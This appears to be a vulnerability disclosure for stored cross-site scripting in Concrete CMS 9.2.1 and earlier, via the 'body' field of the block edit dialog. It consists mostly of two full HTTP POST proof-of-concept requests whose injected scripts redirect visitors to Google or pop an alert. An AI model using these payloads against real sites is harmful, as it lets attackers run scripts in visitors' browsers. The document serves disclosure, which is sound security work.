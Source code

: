 BUG_Author:
LJWIIE

Affected version:
Concrete CMS versions 9.2.1 and earlier

Vendor:
https://www.concretecms.org/

Software:

https://www.concretecms.org/download

https://github.com/concretecms/concretecms/releases/tag/9.2.1

Vulnerability File:
index.php/ccm/system/dialogs/block/edit.php, function submit()

Description:

In Concrete CMS versions 9.2.1 and earlier, authenticated users can execute Stored Cross-Site Scripting (XSS) attacks via the "body" parameter in the "Edit Feature Link" function. This may lead to harmful actions such as redirects, unwanted ads, and executing malicious HTML code, posing risks to visitors and the site's integrity.

Status: Medium

POST parameter 'body' contains a Stored Cross-Site Scripting (XSS) vulnerability

[**Redirect to Google official website**]Payload1:

```html
POST /concretecms/index.php/ccm/system/dialogs/block/edit/submit?ccm_token=1695391704:f08febc0b74c604e3155a7c1dae52c5b&cID=1&arHandle=Main+%3A+3+%3A+Column+2&bID=1659 HTTP/1.1
Host: 192.168.157.135
Content-Length: 1952
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryTHazfOhCNYBmeP8N
Origin: http://192.168.157.135
Referer: http://192.168.157.135/concretecms/index.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: CONCRETE=tpv8secu9t64ob26vf7ci5mlar; CONCRETE_LOGIN=1
Connection: close

------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="title"

Leverage agile frameworks to provide a robust synopsis
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="titleFormat"

h2
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="body"

<p>Lorem ipsum dolor sit amet, consectetur adipiscing elit. Maecenas varius tortor nibh, sit amet tempor nibh finibus et. Aenean eu enim justo.</p>
<script type="text/javascript">
        window.onload = function() {
            window.location.href = 'https://www.google.com';
        };
</script><p>

------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="fID"

0
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="buttonText"

Learn More
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="buttonSize"

lg
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="buttonStyle"

outline
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="buttonColor"

primary
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="icon"


------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="imageLink__which"

none
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="imageLink_page"

0
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="imageLink_file"

0
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="imageLink_external_url"


------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="ccm-edit-block-submit"

submit
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="__ccm_consider_request_as_xhr"

1
------WebKitFormBoundaryTHazfOhCNYBmeP8N--
```

![image](https://github.com/IIE-Safety/StoredXSS_BODY/assets/65028436/c20eeb0d-78a7-4f65-a48a-c0e81469355e)

![image](https://github.com/IIE-Safety/StoredXSS_BODY/assets/65028436/2894443e-d57d-4b80-9d59-b76f3eb0f98b)

Once edited and saved, anyone visiting this page will be forced to visit the Google website.
Below is a gif showing it.

![RedirectToGoogle](https://github.com/IIE-Safety/StoredXSS_BODY/assets/65028436/3d2ed4e1-abec-4053-8166-5bdf198de7bd)

[**Display alert window**]Payload2:

```html
POST /concretecms/index.php/ccm/system/dialogs/block/edit/submit?ccm_token=1695391704:f08febc0b74c604e3155a7c1dae52c5b&cID=1&arHandle=Main+%3A+3+%3A+Column+2&bID=1659 HTTP/1.1
Host: 192.168.157.135
Content-Length: 1831
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryTHazfOhCNYBmeP8N
Origin: http://192.168.157.135
Referer: http://192.168.157.135/concretecms/index.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: CONCRETE=tpv8secu9t64ob26vf7ci5mlar; CONCRETE_LOGIN=1
Connection: close

------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="title"

Leverage agile frameworks to provide a robust synopsis
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="titleFormat"

h2
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="body"

<p>Lorem ipsum dolor sit amet, consectetur adipiscing elit. Maecenas varius tortor nibh, sit amet tempor nibh finibus et. Aenean eu enim justo.</p>
<script>alert("You have been hacked!")</script><p>

------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="fID"

0
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="buttonText"

Learn More
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="buttonSize"

lg
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="buttonStyle"

outline
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="buttonColor"

primary
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="icon"


------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="imageLink__which"

none
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="imageLink_page"

0
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="imageLink_file"

0
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="imageLink_external_url"


------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="ccm-edit-block-submit"

submit
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="__ccm_consider_request_as_xhr"

1
------WebKitFormBoundaryTHazfOhCNYBmeP8N--
```
![image](https://github.com/IIE-Safety/StoredXSS_BODY/assets/65028436/8eb05aa6-b84c-4839-994f-78b318a3e324)

![image](https://github.com/IIE-Safety/StoredXSS_BODY/assets/65028436/2894443e-d57d-4b80-9d59-b76f3eb0f98b)

![image](https://github.com/IIE-Safety/StoredXSS_BODY/assets/65028436/aa0a61ad-c1c2-4903-8019-a1fa9a4f060c)

